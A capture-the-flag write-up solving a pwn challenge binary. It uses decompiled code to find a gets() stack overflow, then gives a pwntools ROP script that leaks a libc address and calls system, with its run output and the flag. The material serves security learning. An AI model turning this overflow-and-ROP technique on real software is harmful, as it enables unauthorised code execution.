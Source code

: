 # Writeup

We are given a binary to pwn.

```
[*] '/home/pctf23/chall6/execution'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Executing the binary we see that it executes normally and exits.

```
$ ./execution 
Welcome to the feedback submiter.
Tell us some review about our program: 
good
 ``` 
 ```
 ...
0x00000000004005b6  info
0x00000000004005c7  date
0x00000000004005d8  vuln
0x00000000004005fe  main
...
```

so we could see a vuln function which mostly would have the problem

Disassembling the main in ghidra

```

undefined8 main(void)

{
  puts("Welcome to the feedback submiter.");
  vuln();
  return 0;
}
```
Disassembling the info in ghidra
```
void info(void)

{
  puts("Why not try to execuate the date in the root");
  return;
}
```
So we need to execute the date command in the root folder.

Disassembling the vuln in ghidra
```
void vuln(void)

{
  char local_48 [64];
  
  puts("Tell us some review about our program: ");
  gets(local_48);
  return;
}
```

so here a gets function is used so trying to find the offset we get it to be 72

So as we are asked to execute the date fiel in the root folder 
Using a rop to build it 

Writing a script for ROP using pwn

```
#!/usr/bin/python3
from pwn import *

context.arch = "amd64"

offset = 72

elf = ELF("./execution")
p = elf.process()


rop = ROP(elf)
rop.call(elf.symbols['puts'], [elf.got['puts']])
rop.call(elf.symbols['vuln'])
rop.call("puts", [ next(elf.search(b"/date\x00"))])
rop.call(elf.symbols['system'], [ next(elf.search(b"/date\x00"))])

log.info(p.recvuntil("\n"))
log.info(p.recvuntil("\n"))

payload = [
    b"A" * offset,
    rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)

puts = u64(p.recvuntil("\n").rstrip().ljust(8,b"\x00"))
log.info(f"puts found at {hex(puts)}")

p.interactive()
```

So now executing the python script
```

$ python3 solve.py
[*] '/home/pctf23/chall6/execution'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/pctf23/chall6/execution': pid 19904
[*] Loaded 14 cached gadgets for './execution'
/home/pctf23/chall6/solve.py:18: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  log.info(p.recvuntil("\n"))
[*] Welcome to the feedback submiter.
[*] Tell us some review about our program: 
/home/pctf23/chall6/solve.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  puts = u64(p.recvuntil("\n").rstrip().ljust(8,b"\x00"))
[*] puts found at 0x7efd23a39ed0
[*] Switching to interactive mode
Tell us some review about our program: 
$ ls
/date
p_ctf{c8@ng3_0rd3r_0f_3x3ccut10n}
[*] Got EOF while reading in interactive`

```

Got the flag 
```
p_ctf{c8@ng3_0rd3r_0f_3x3ccut10n}
```